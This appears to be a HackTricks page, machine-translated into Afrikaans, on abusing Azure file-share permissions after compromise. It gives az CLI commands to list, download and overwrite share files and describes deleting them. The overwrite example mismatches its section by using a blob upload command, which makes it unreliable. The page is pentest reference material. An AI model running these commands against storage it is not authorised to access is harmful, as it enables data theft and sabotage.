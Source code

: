 # Az - Lêer Deel Post Exploitatie

{{#include ../../../banners/hacktricks-training.md}}

Lêer Deel Post Exploitatie

Vir meer inligting oor lêer dele, kyk:

{{#ref}}
../az-services/az-file-shares.md
{{#endref}}

### `Microsoft.Storage/storageAccounts/fileServices/fileshares/files/read`

'n Hoofpersoon met hierdie toestemming sal in staat wees om **lys** die lêers binne 'n lêer deel en **af te laai** die lêers wat moontlik **sensitiewe inligting** kan bevat.
```bash
# List files inside an azure file share
az storage file list \
--account-name <name> \
--share-name <share-name> \
--auth-mode login --enable-file-backup-request-intent

# Download an specific file
az storage file download \
--account-name <name> \
--share-name <share-name> \
--path <filename-to-download> \
--dest /path/to/down \
--auth-mode login --enable-file-backup-request-intent
```
### `Microsoft.Storage/storageAccounts/fileServices/fileshares/files/write`, `Microsoft.Storage/storageAccounts/fileServices/writeFileBackupSemantics/action`

'n Hoofpersoon met hierdie toestemming sal in staat wees om **lêers in lêerdelings te skryf en te oorskryf** wat hom mag toelaat om skade aan te rig of selfs bevoegdhede te verhoog (bv. om 'n bietjie kode wat in 'n lêerdeling gestoor is, te oorskryf):
```bash
az storage blob upload \
--account-name <acc-name> \
--container-name <container-name> \
--file /tmp/up.txt --auth-mode login --overwrite
```
### \*/delete

Dit sal toelaat om lêers binne die gedeelde lêerstelsel te verwyder wat dalk **sekere dienste kan onderbreek** of die kliënt **waardevolle inligting kan laat verloor**.

{{#include ../../../banners/hacktricks-training.md}}
